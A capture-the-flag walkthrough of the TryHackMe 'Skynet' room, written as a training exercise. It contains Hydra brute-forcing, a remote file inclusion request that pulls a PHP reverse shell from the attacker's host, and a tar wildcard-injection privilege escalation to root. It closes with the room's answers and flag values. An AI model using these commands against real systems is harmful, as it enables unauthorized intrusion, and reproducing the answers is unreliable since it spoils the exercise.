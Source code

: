 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit
* Reverse Shell

![IP](./images/IP.png)

## Task 1 - Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

## Enumeration

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with hydra

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

	![payload](./images/payload.png)

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	![revshells](./images/revshells.png)

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	![http.server](./images/http.server.png)

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	![web-access](./images/web-access.png)

	![revshells.download](./images/revshells.download.png)

	![get-shell](./images/get-shell.png)

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	![python-spawn](./images/python-spawn.png)

* Get the `user.txt`

	![user-txt](./images/user-txt.png)

* Now let’s see what we have in miles’ home directory

	![backups](./images/backups.png)

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	![crontab](./images/crontab.png)

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	![privileged](./images/privileged.png)

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	![root](./images/root.png)

* Get the `root.txt`

	![root-txt](./images/root-txt.png)

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	![hydra](./images/hydra.png)

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	![important](./images/important.png)

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	![searchsploit](./images/searchsploit.png)

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

	![user-txt](./images/user-txt.png)

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`

	![root-txt](./images/root-txt.png)


